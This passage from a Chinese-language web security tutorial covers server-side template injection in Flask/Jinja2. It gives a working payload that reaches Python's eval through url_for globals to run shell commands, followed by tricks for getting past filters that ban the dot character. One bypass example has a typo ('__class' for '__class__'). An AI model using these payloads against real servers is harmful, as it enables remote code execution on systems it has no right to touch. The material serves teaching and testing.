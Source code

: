 [![在这里插入图片描述](assets/1698900310-6677a788b0fb6e926a874a5649c1e721.png)](https://storage.tttang.com/media/attachment/2022/08/14/78971b0e-8acd-440d-817d-de3e415bf5a5.png)  
还有一个比较厉害的模块，就是`__builtins__`,它里面有`eval()`等函数，我们可以也利用它来进行 RCE  
它的 payload 是

```bash
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
```

[![在这里插入图片描述](assets/1698900310-02e4a2ba4a41efb552b99b7396a2cc6e.png)](https://storage.tttang.com/media/attachment/2022/08/14/dcf10253-80ed-454d-8a85-72da3b87d079.png)

# [SSTI 常见绕过方式](#toc_ssti_3)

## [绕过。](#toc__5)

当。被 ban 时，有以下几种绕过方式

```bash
1、用[]代替.，举个例子
{{"".__class__}}={{""['__class']}}
2、用 attr() 过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

## [绕过\_](#toc__)
